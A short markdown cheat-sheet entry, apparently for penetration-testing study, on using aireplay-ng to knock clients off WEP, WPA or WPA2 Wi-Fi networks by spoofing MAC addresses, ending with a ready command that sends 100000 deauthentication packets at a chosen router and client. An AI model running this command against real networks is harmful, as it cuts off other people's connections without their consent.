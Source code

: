 # aireplay-ng

- Disconnect any client from any network (`Deauthentication attack`)
- Works on encrypted networks WEP, WPA & WPA2
- No need to connect to the network
- What is done is:
  - You impersionate the MAC of the client with a "disconnect" signal and send to the router
  - You impersionate the MAC of the router with a "ok, disconnected" signal and send to the client

```shell
aireplay-ng "wlp3s0mon" \
  --deauth "100000" \ # number of packets to send (to the router and the client)
  -D \ # for 5GHz networks only (disable AP detection)
  -a "router-mac" \
  -c "client-mac"
```
